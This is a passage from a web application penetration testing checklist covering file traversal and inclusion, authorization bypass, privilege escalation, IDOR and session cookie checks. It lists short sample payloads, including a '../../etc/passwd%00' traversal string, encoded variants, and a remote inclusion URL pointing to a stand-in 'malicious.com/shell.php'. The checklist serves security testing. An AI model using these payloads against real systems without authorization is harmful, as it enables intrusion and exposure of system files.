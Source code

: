 ### Test Directory Traversal/File Include
- [ ] Identify URL or cookie-based injection points
- [ ] Test Local File Inclusion (LFI)
  - `../../etc/passwd%00`
- [ ] Test Remote File Inclusion (RFI)
  - `http://malicious.com/shell.php`
- [ ] Apply obfuscation:
  - [ ] Base64 encoding (`L2V0Yy9wYXNzd2Q=`)
  - [ ] URL encoding (`%2e%2e%2f`)
  - [ ] ASCII, HTML, Hex, Binary, Octal, or Gzip encoding
  - [ ] Double encoding (`%252e%252e%252f`)
  - [ ] Special characters or null bytes (`%00`)

### Test Traversal with Different OS Schemes
- [ ] Test Unix paths (`/etc/passwd`)
- [ ] Test Windows paths (`..\windows\system32`)
- [ ] Test Mac paths (`/Library/Preferences/`)

### Test Authorization Schema Bypass
- [ ] Test horizontal bypass (accessing another user's data)
- [ ] Test vertical bypass (user to admin access)
- [ ] Override with custom headers
  - `X-Forwarded-For`
  - `X-Custom-IP`

### Test for Privilege Escalation
- [ ] Identify injection points for privilege escalation
- [ ] Test forced browsing to high-privilege endpoints (`/admin/settings`)
- [ ] Manipulate parameters to gain elevated access

### Test for Insecure Direct Object Reference (IDOR)
- [ ] Change ID parameters (`user_id=123` to `124`)
- [ ] Add parameters or use outdated API versions
- [ ] Test HTTP parameter pollution (`user_id=123&user_id=124`)
- [ ] Wrap IDs in arrays (`user_id[]=123`) or JSON objects (`{"user_id":123}`)
- [ ] Test case changes, path traversal, or method swapping

6. Session Management Testing

Objective: Ensure secure session handling to prevent hijacking or unauthorized access.

### Test for Session Management Schema
- [ ] Verify `Set-Cookie` includes `Secure`, `HttpOnly`, and `SameSite=Strict` flags
- [ ] Ensure cookies are not transmitted over HTTP
- [ ] Check for persistent cookies or session fixation vulnerabilities
- [ ] Test session behavior post-logout or browser closure
- [ ] Decode cookies (Base64, Hex, URL) for sensitive data

### Test for Cookie Attributes
- [ ] Ensure cookies have `Secure`, `HttpOnly`, `Path`, and `SameSite` attributes
- [ ] Verify proper cookie expiration settings (short-lived sessions)
